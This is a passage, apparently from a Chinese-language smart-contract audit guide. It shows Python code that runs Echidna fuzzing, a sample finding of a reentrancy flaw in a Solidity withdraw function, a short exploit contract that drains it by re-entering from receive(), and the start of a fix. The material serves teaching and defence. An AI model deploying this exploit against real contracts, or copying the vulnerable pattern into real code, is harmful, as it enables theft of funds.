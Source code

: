                 # 运行Echidna测试
                with open('echidna.yaml', 'w') as f:
                    yaml.dump(config, f)
                
                cmd = f"echidna-test {self.contract_path} --config echidna.yaml"
                result = subprocess.run(cmd, shell=True, capture_output=True)
                
                return self.parse_echidna_results(result.stdout.decode())
        ```

        **2. 深度代码审查**
        ```solidity
        // 审计发现示例：高危重入漏洞
        
        /**
         * 漏洞：Classic Reentrancy in Withdraw Function
         * 严重程度：🔴 Critical
         * 影响：资金可被完全耗尽
         */
        
        // 存在漏洞的代码
        function withdraw(uint256 amount) external {
            require(balances[msg.sender] >= amount, "Insufficient balance");
            
            // ❌ 危险：先转账后更新状态
            (bool success, ) = msg.sender.call{value: amount}("");
            require(success, "Transfer failed");
            
            balances[msg.sender] -= amount;  // 状态更新在外部调用之后
        }
        
        // 攻击POC
        contract ReentrancyExploit {
            VulnerableContract public target;
            uint256 public attackAmount;
            
            function attack() external payable {
                attackAmount = msg.value;
                target.deposit{value: msg.value}();
                target.withdraw(attackAmount);
            }
            
            receive() external payable {
                if (address(target).balance >= attackAmount) {
                    target.withdraw(attackAmount);  // 重入攻击
                }
            }
        }
        
        // ✅ 修复方案
        function withdrawSecure(uint256 amount) external {
            require(balances[msg.sender] >= amount, "Insufficient balance");
            
            // Checks-Effects-Interactions模式
            balances[msg.sender] -= amount;  // 先更新状态
            